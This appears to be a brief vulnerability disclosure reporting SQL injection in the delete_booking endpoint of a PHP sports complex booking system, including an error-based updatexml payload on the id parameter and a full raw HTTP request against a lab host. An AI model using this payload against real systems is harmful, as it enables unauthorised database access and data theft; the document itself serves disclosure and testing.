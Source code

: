 # Online Sports Complex Booking System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15236/online-sports-complex-booking-system-phpmysql-free-source-code.html

Vulnerability File: \scbs\classes\Master.php?f=delete_booking

Vulnerability location: /scbs/classes/Master.php?f=delete_booking, id

[+] Payload: id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+

```sql
POST /scbs/classes/Master.php?f=delete_booking HTTP/1.1
Host: 192.168.1.19
Content-Length: 65
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.19
Referer: http://192.168.1.19/scbs/admin/?page=bookings
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=p5eujbkhl692v4hpr6ltptnq06
Connection: close

id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id
```

![image](https://user-images.githubusercontent.com/54017627/165213319-0a141ba5-826e-4c13-9010-11e80d84973a.png)


